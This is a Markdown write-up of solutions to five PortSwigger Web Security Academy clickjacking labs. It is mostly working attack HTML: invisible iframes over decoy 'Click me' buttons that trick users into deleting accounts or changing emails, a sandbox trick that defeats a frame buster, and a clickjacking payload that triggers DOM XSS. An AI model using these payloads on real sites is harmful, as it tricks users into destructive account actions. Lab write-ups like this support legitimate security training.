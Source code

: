 ```yaml
---
description: https://portswigger.net/web-security/clickjacking
---
```


# Clickjacking (UI redressing)

### Lab: Basic clickjacking with CSRF token protection

This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

```
POST /my-account/delete HTTP/1.1
Host: ac381f3b1e32ee41c1cd635700b800c3.web-security-academy.net
...
csrf=Mhp88EQipwUkHUgrlWxeDrQ1uJ43aAja
```

We have to arrange of click with div's top and left values to deletion of user.

We can set iframe's opacity to 0.2 for clear view.

**Exploit Server ->**

```
Body:

    <style>
       iframe {
           position:relative;
           width:400;
           height: 700;
           opacity: 0.0001;
           z-index: 2;
       }
       div {
           position:absolute;
           top:495;
           left:175;
           z-index: 1;
       }
    </style>
    <div>Click me</div>
    <iframe src="https://ac381f3b1e32ee41c1cd635700b800c3.web-security-academy.net/my-account"></iframe>
```

### Lab: Clickjacking with form input data prefilled from a URL parameter

This lab extends the basic clickjacking example in Lab: Basic clickjacking with CSRF token protection. The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button.

To solve the lab, craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed.

```
<input required type="email" name="email" value="">

POST /my-account/change-email HTTP/1.1
Host: ac311fd41f2e579cc0e51ea800510007.web-security-academy.net
...
email=evil%40mail.com&csrf=mqzae53TQekuHUMszO04gOIuRnK1Vui8
```

`/my-account?email=evil%40mail.com`

**Exploit Server ->**

```
Body:

    <style>
       iframe {
           position:relative;
           width:400;
           height: 700;
           opacity: 0.0001;
           z-index: 2;
       }
       div {
           position:absolute;
           top:450;
           left:175;
           z-index: 1;
       }
    </style>
    <div>Click me</div>
    <iframe src="https://ac311fd41f2e579cc0e51ea800510007.web-security-academy.net/my-account?email=evil%40mail.com"></iframe>
```

### Lab: Clickjacking with a frame buster script

This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address?

To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.

```
<input required type="email" name="email" value="">
<script>
	if(top != self) {
		window.addEventListener("DOMContentLoaded", function() {
			document.body.innerHTML = 'This page cannot be framed';
		}, false);
	}
</script>
```

```
POST /my-account/change-email HTTP/1.1
Host: acfa1f431ff368a7c0991ff800d600b8.web-security-academy.net
...
email=evil%40mail.com&csrf=0T0HOHUrtrYviIXJ3x7tDsggt9ouEpLS
```

We can use sandbox="allow-forms" attribute in iframe. These values can be use for bypass:

* allow-forms
* allow-scripts
* allow-top-navigation

**Exploit Server ->**

```
<style>
   iframe {
       position:relative;
       width:400;
       height: 700;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:450;
       left:175;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://acfa1f431ff368a7c0991ff800d600b8.web-security-academy.net/my-account?email=evil%40mail.com" sandbox="allow-forms"></iframe>
```

### Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS

This lab contains an XSS vulnerability that is triggered by a click. Construct a clickjacking attack that fools the user into clicking the "Click me" button to call the print() function.

```
POST /feedback/submit HTTP/1.1
Host: ac451f391f9944eec1b046ba008d0048.web-security-academy.net
...
csrf=...&name=test1&email=test2%40test.com&subject=test3&message=test4

In response:
Thank you for submitting feedback, test1!
```

```
<img src=1 onerror=print()>

/feedback?name=<img src=1 onerror=print()>&email=evil%40mail.com&subject=evil&message=smile
```

**Exploit Server ->**

```
Body:

    <style>
       iframe {
           position:relative;
           width:400;
           height: 900;
           opacity: 0.0001;
           z-index: 2;
       }
       div {
           position:absolute;
           top:795;
           left:175;
           z-index: 1;
       }
    </style>
    <div>Click me</div>
    <iframe src="https://ac451f391f9944eec1b046ba008d0048.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=evil%40mail.com&subject=evil&message=smile"></iframe>
```

### Lab: Multistep clickjacking

This lab has some account functionality that is protected by a CSRF token and also has a confirmation dialog to protect against Clickjacking. To solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. You will need to use two elements for this lab.

**"Delete Account" button ->"Yes" button**

**Exploit Server ->**

```
Body:

    <style>
       iframe {
           position:relative;
           width:400;
           height: 700;
           opacity: 0.0001;
           z-index: 2;
       }
       #first {
           position:absolute;
           top:495;
           left:150;
           z-index: 1;
       }
       #second {
           position:absolute;
           top:315;
           left:150;
           z-index: 1;
       }
    </style>
    <div id="first">Click me first</div>
    <div id="second">Click me next</div>
    <iframe src="https://ac3a1f551fe757c8c0b6256e00a800bc.web-security-academy.net/my-account"></iframe>
```
